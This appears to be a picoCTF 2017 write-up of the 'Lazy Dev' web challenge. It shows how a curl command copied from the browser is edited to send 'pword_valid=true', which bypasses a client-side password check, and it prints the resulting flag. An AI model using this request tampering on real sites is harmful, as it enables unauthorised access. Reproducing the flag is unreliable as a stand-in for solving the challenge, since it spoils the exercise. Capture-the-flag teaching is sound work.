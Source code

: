 # Lazy Dev - 50 PTS
I really need to login to this website, but the developer hasn't implemented login yet. Can you help?


## Hint
Where does the password check actually occur?
Can you interact with the javascript directly?

# Write Up
Lets visit the website, my link may be different than yours: http://shell2017.picoctf.com:37907/

The first thing i want to do is check out the page source for any possible hints. Right click anywhere on the page > view page source.

Not much here, but i do see "/static/client/js" which must be the javascript that the hint is referring to. I open that next.

I'm not a wiz with java, but it doesn't look theres much implemented here per the comments within the js file. 

I'm going to head back over to the page with the "Enter the password" and use Google Dev tools to take a deeper look. If you are using chrome this is likely already installed. In your browser click on the options menu in the upper right, and select More Tools > Developer Tools. Dev tools is a set of debugging tools built into chrome that does many things. Right away you can see the source of the page which we already looked at.

Head on over to the netowk tool. Now that you have it up, click on the Submit button with no password entered to see what happens when submit is clicked.

You should see a new event Named "login", click it.

Now you should see Headers/Preview/Response/Timing. Take a look at headers. At the very bottom we see "pword_valid: false."

We need that to be true...

Heres the easy way. Right click on the Login event, and select copy > Copy as cURL (cmd).

Paste it into notepad++ and your paste should look similar to mine:

>curl "http://shell2017.picoctf.com:37907/login" -H "Origin: http://shell2017.picoctf.com:37907" -H "Accept-Encoding: gzip, deflate" -H "Accept-Language: en-US,en;q=0.8" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36" -H "Content-type: application/x-www-form-urlencoded" -H "Accept: */*" -H "Referer: http://shell2017.picoctf.com:37907/" -H "Connection: keep-alive" --data "pword_valid=false" --compressed

cURL transfers data to the server behind this webpage. With the curl command above, we've completely replicated exactly what happens when the "Submit" button is clicked. The only thing we need to change now is that "pword_valid=False" to "pword_valid=true"

so the modified curl command looks like:

>curl "http://shell2017.picoctf.com:37907/login" -H "Origin: http://shell2017.picoctf.com:37907" -H "Accept-Encoding: gzip, deflate" -H "Accept-Language: en-US,en;q=0.8" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36" -H "Content-type: application/x-www-form-urlencoded" -H "Accept: */*" -H "Referer: http://shell2017.picoctf.com:37907/" -H "Connection: keep-alive" --data "pword_valid=true" --compressed

Entering the curl command into my Linux terminal, i'm rewarded with what looks to be the flag:

>client_side_is_the_dark_side6295c70148b5939179f1d1b6b70fb0c7

# Resources
https://curl.haxx.se/docs/manpage.html
